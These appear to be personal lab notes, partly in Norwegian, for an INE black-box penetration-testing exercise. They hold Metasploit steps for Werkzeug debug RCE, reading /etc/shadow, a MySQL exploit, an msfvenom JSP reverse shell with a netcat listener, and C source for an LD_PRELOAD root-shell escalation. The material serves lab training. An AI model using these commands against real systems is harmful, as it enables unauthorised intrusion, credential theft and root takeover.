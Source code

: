# Blacbox 3 try 2

## find all the service
HOST: 192.224.128.2/24
RHOST1: server1.ine.local -> 192.224.128.3 
    -> werkzeug -p 80 -v httpd -os python
RHOST2: server2.ine.local -> 192.224.128.4 
    -> mysql -p 3306 -v MySQL -os ubuntu
RHOST3: server3.ine.local -> 192.224.128.5 
    -> ssh -p 22 -v OpenSSH -os Ubuntu
    -> http -p 8080 Apache -os Tomcat

## Setup msfconsole 
- $searchsploit werkzeug
- $msfconsole -q
- $use exploit/multi/http/werkzeug_debug_rce
- $show options
- $set options RHOSTS, LHOST
- $check
- $exploit

## Enumerate inside meterpreter
- $cat /etc/shadow
- Check enum for cmd history
- use enum_users_history
- cat the file
- find user information
- Use the mysql credentials to log into mysql
- usemysql UDP exploit to exploit the mysql
- Cat /root/flag.txt when mysql is exploited
- Summary: got root on two remote machine and got a flag.txt

## Last machine


Viktige tips:
Lage en revershell:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.73.96.2 LPORT=443 -f war > shell.war

Lyte med netcat:
nc -lvp 443

Importere en python TTY shell:
python -c 'import pty;pty.spawn("/bin/bash");'

Sette opp en preload:
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}

Kjøre en preload:
sudo LD_PRELOAD=/home/robert/shell.so ls

compile c file:
gcc -fPIC -shared -o shell.so shell.c -nostartfiles